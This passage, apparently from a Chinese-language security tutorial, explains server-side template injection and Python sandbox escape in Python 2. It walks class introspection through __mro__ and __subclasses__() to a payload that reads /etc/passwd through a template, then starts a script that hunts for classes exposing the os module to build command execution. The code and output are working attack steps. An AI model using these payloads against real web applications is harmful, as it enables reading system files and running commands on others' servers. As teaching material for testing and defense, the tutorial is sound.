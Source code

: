 2 、寻找基类

```
>>> ''.__class__.__mro__
(<type 'str'>, <type 'basestring'>, <type 'object'>)
```

3 、寻找可用引用

```
>>> ''.__class__.__mro__[2].__subclasses__()
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]


可以看到有一个`<type 'file'>`
```

4 、利用之

```
''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()
```

放到模板里![](https://image.3001.net/images/20181029/1540787928_5bd68ed820299.png!small)

可以看到读取到了文件。

#### 命令执行

继续看命令执行 payload 的构造，思路和构造文件读取的一样。

寻找包含 os 模块的脚本

```
#!/usr/bin/env python
# encoding: utf-8
for item in ''.__class__.__mro__[2].__subclasses__():
    try:
         if 'os' in item.__init__.__globals__:
             print num,item
         num+=1
    except:
        print '-'
        num+=1
```
